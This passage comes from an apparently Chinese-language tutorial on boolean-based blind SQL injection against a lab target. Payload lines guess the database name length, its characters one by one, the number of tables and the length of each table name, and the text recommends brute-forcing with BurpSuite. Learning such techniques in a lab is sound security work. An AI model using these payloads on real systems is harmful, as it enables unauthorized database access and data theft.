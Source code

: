 ![image-20230330172006376](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330172006376.png)

```
payload：
1' and length(database())=1#
1' and length(database())=2#
1' and length(database())=3#
1' and length(database())=4#
```

当我们输入到4的时候就出现的新的返回内容：

![image-20230330172750860](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330172750860.png)

#### 猜数据库名

```
payload：
1' and ascii(substr(database(),1,1))>97#
1' and ascii(substr(database(),1,1))<122#
```

![image-20230330174127400](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330174127400.png)

暴力猜测，通过修改前面的数值即可，推荐使用BurpSuite，利用字典进行遍历来获取，通过该方法得到数据库的名字。

#### 猜数据库的表名

```
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1#
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```

![image-20230405123256298](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405123256298.png)

当输入第二条的时候会烦了关键字Exits，说明该数据库存在两张表

![image-20230405123831669](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405123831669.png)

#### 猜测数据表的表名

输入以下payload：

```
1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=1#

1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9#

1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,2))=1#

1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,2))=5#
```
